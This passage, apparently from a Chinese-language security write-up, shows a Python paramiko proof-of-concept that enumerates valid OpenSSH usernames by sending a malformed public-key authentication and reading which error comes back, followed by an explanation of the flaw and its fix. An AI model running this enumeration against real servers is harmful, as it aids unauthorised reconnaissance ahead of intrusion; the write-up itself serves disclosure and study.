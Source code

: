     sock = socket.socket()
    try:
        sock.connect((args.hostname, args.port))
    except socket.error:
        print '[-] Failed to connect'
        sys.exit(1)

    transport = paramiko.transport.Transport(sock)
    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print '[-] Failed to negotiate SSH transport'
        sys.exit(2)

    try:
        transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print '[*] Invalid username'
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print '[+] Valid username'

这个漏洞之所以存在，是因为服务器在对消息完整解析之前，用户查询了不存在的用户名。想要修复该漏洞也很简单，按攻击逻辑反着来就行了：首先对消息进行完整解析，然后再建立通信连接。

测试漏洞利用PoC的一种方法就是在调试模式下开启OpenSSH服务器：
